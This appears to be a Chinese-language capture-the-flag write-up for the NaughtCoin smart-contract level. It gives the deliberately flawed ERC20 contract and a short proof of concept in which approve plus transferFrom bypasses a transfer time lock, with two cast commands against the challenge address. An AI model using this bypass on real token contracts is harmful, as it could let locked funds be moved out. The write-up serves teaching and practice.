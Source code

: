 #   Level 15 NaughtCoin
實例地址：`0x78E761A7aE384e6072490796b7F5aadDBe02CBf7`

##  題目說明
NaughtCoin 是一種 ERC20 代幣，而且你已經持有這些代幣。問題是你只能在等待 10 年的鎖倉期之後才能轉移它們。你能不能嘗試將它們轉移到另一個地址，讓你可以自由地使用它們嗎？要完成這個關卡的話要讓你的帳戶餘額歸零。

  可能會有用的資訊

*   ERC20 標準
*   OpenZeppelin 程式庫
```solidity
NaughtCoin 是一種 ERC20 代幣，而且你已經持有這些代幣。問題是你只能在等待 10 年的鎖倉期之後才能轉移它們。你能不能嘗試將它們轉移到另一個地址，讓你可以自由地使用它們嗎？要完成這個關卡的話要讓你的帳戶餘額歸零。

  可能會有用的資訊

*   ERC20 標準
*   OpenZeppelin 程式庫
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```

##  POC
這項合約繼承了 ERC20 協議，該合約更改了 `transfer` 導致我們無法使用 `transfer` 直接將代幣轉出，但是我可以透過該協議的 `approve` 和 `transferFrom` 繞過 `lockTokens`，將代幣轉出。


1. `approve` 給其他地址 
```bash
cast send --account=Panda 0x78E761A7aE384e6072490796b7F5aadDBe02CBf7 "approve(address,uint256)" 0x23091d5f37FBeAd4C5109A0cDb2A00989ADA0836 1000000000000000000000000
```

2. 透過其他地址轉出
```bash
cast send --account=TEST 0x78E761A7aE384e6072490796b7F5aadDBe02CBf7 "transferFrom(address,address,uint256)" 0xEBA2Ef27A1B85a4685953E82848e9d2E9ED5b0B6 0x23091d5f37FBeAd4C5109A0cDb2A00989ADA0836 1000000000000000000000000
```